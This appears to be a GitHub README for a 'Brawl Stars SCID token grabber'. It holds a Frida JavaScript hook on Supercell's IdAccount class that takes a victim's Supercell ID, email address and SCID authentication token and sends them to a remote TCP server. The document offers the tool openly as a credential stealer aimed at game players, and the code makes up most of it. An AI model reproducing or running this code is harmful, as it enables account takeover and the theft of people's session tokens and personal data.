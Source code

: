 # Brawl-Stars-ScidToken
Just an easy scid token grabber for brawl stars that sent data to a TCP
 over TCP
 This part of the code retrieves victim account data :
 ```js

var IdAccount = Java.use("com.supercell.id.scid_plugin.IdAccount");

IdAccount.toString.overload().implementation = function () {
    var result = this.toString();
    
    var supercellId = this.supercellId.value;  // Retrieves the Supercell ID
    var email = this.email.value;             // Retrieves the associated email
    var scidToken = this.scidToken.value;     // Retrieves the SCID token

    console.log(supercellId);
    console.log(email);
    console.log(scidToken);

    sendToTcpServer(supercellId, email, scidToken); // Sends data to the remote server

    return result;
};
```
    
